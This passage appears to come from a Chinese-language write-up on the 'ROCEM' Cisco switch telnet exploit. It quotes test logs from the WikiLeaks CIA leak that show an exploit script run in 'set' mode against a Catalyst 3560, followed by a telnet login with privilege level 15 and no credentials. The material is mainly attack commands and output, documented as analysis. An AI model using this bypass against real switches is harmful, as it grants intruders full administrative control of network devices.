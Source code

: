 ```
Connected to 127.0.0.1.
Escape character is '^]'.
[+] Connection established
[*] Starting interactive session
User Access Verification
Password:
MLS-Sth#
MLS-Sth# show priv
Current privilege level is 15
MLS-Sth#show users
Line User Host(s) Idle Location
* 1 vty 0 idle 00:00:00 192.168.221.40
Interface User Mode Idle Peer Address
MLS-Sth#exit
Connection closed by foreign host.
```

设置模式。修改交换机内存，以便将来可以在无需密码的情况下建立telnet连接。下面的内容引自该[文档](https://wikileaks.org/ciav7p1/cms/page_17760327.html)： 



```
Test set/unset feature of ROCEM
DUT configured with target configuration and network setup
DUT is accessed by hopping through three flux nodes as per the CONOP
Reloaded DUT to start with a clean device
From Adverse ICON machine, set ROCEM:
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -s 192.168.0.254
[+] Validating data/interactive.bin
[+] Validating data/set.bin
[+] Validating data/transfer.bin
[+] Validating data/unset.bin
****************************************
Image: c3560-ipbase-mz.122-35.SE5
Host: 192.168.0.254
Action: Set
****************************************
Proceed? (y/n)y
[*] Attempting connection to host 192.168.0.254:23
[+] Connection established
[*] Sending Protocol Step 1
[*] Sending Protocol Step 2
[+] Done
root@debian:/home/user1/ops/adverse/adverse-1r/rocem#
Verified I could telnet and rx priv 15 without creds:
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# telnet 192.168.0.254
Trying 192.168.0.254...
Connected to 192.168.0.254.
Escape character is '^]'.
MLS-Sth#
MLS-Sth#show priv
Current privilege level is 15
MLS-Sth#
```
